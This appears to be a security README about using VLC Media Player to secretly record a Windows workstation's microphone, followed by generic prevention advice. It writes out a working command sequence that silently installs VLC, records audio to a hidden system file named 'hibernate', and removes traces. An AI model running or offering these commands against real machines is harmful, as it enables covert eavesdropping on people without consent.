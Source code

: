 README.MD: Preventing Unauthorized Eavesdropping Using VLC Media Player
=======================================================================

Overview
--------

This document outlines a malicious process that can be used to eavesdrop on conversations using the microphone of a workstation. It also provides recommendations for organizations to prevent such unauthorized activities by blocking VLC Media Player or implementing log and event monitoring as deterrent measures.

Malicious Process
-----------------

The following commands demonstrate how an attacker can use VLC Media Player to record audio from a workstation's microphone and hide the recorded file:

1.  This command installs VLC Media Player silently, waits for 40 seconds, and then deletes the installer and any desktop shortcuts created.`  C:\vlcsetup.exe /S & ping 0.0.0.0 -n 40 >/nul & del /F /Q "%systemdrive%\Users\Public\Desktop\VLC media player\*\*" & del C:\vlcsetup.exe`
    
2.  C:\Progra~1\VideoLAN\VLC\vlc.exe --one-instance dshow:// :dshow-vdev=none :dshow-adev :sout=#transcode{vcodec=h264,scale=Auto,acodec=mpga,ab=128,channels=2,samplerate=44100}:duplicate{dst=std{access=file,mux="ogg",dst="C:\hibernate"}}This command starts VLC in a single instance mode, captures audio from the default audio device, and saves the recording to a file named **hibernate** in the root of the C drive.
    
3.  attrib +h +s C:\hibernateThis command sets the **hibernate** file as hidden and system, making it less likely to be noticed by the user.
    
4.  taskkill /f /im vlc\* & ping 0.0.0.0 -n 5 >/nul & attrib -h -s C:\hibernateThis command forcefully terminates any VLC processes, waits for 5 seconds, and then removes the hidden and system attributes from the **hibernate** file.
    
5.  del C:\hibernate & taskkill /f /im cmd\*This command deletes the **hibernate** file and forcefully terminates any Command Prompt processes.
    

Prevention Measures
-------------------

To prevent unauthorized eavesdropping using VLC Media Player, organizations can implement the following measures:

### 1\. Block VLC Media Player

*   **Application Whitelisting:** Implement application whitelisting to prevent unauthorized software, including VLC Media Player, from being installed or executed.
    
*   **Group Policy:** Use Group Policy Objects (GPO) to block the installation and execution of VLC Media Player on all workstations.
    

### 2\. Log and Event Monitoring

*   **Audit Logs:** Enable and monitor audit logs for any suspicious activities, such as the creation and deletion of files, and the execution of unauthorized processes.
    
*   **Event Monitoring:** Implement a Security Information and Event Management (SIEM) system to monitor and analyze events in real-time, allowing for quick detection and response to any unauthorized activities.
    

### 3\. User Education

*   **Training:** Educate users on the importance of not installing unauthorized software and the risks associated with phishing attacks and malicious downloads.
    
*   **Reporting:** Encourage users to report any suspicious activities or emails to the IT department.
    

Conclusion
----------

The malicious process outlined in this document highlights the potential security risks associated with unauthorized use of software like VLC Media Player. By implementing the prevention measures described, organizations can significantly reduce the likelihood of unauthorized eavesdropping and protect their sensitive information.

Regularly reviewing and updating security policies, procedures, and technologies is essential to maintain a strong security posture in the face of evolving threats.

**Disclaimer:** This document is intended for educational and informational purposes only. The misuse of the information provided can result in criminal charges brought against the persons in question. The authors will not be held responsible in the event any criminal charges be brought against any individuals misusing the information in this document to break the law.